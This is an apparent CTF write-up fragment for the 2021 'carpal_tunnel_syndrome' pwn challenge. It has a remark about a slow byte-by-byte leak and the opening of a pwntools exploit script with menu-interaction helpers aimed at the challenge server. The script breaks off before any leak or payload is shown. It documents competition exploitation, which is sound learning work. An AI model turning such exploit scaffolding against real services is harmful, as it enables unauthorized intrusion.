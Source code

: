 
The byte-by-byte leak takes quite a while on remote, especially if you have high ping to AWS US EAST. There is no timeout though, so you can just let it run.

```python
from pwn import *

e = ELF("./carpal_tunnel_syndrome")
libc = ELF("./libc-2.31.so")
#ld = ELF("./ld-2.31.so")

context.binary = e
context.terminal = ["konsole", "-e"]

p = process([e.path])
p = remote("pwn.2021.chall.actf.co", 21840)




def mark(x, y):
    p.sendlineafter(": ", "1")
    p.sendlineafter(": ", "{} {}".format(x, y))
    
def view(x, y):
    p.sendlineafter(": ", "2")
    p.sendlineafter(": ", "{} {}".format(x, y))


def reset(i, c):
    p.sendlineafter(": ", "3")
    p.sendlineafter(": ", str(i))
    p.sendlineafter(": ", ["r", "c"][c])


def check_specific(i, c):
    p.sendlineafter(": ", "4")
    p.sendlineafter(": ", str(i))
    p.sendlineafter(": ", ["r", "c"][c])

def check(c, l, n):
    p.sendlineafter(": ", "5")
    p.sendlineafter("? ", ["n", "y"][c])
    p.sendlineafter(": ", str(l))
    p.sendlineafter(": ", n)
    

def change(m):
    p.sendlineafter(": ", "6")
    p.sendafter(": ", str(m))



context.log_level="debug"




p.sendlineafter(": ", "AAAA")


for i in range(5):
    mark(i, 4)
    

```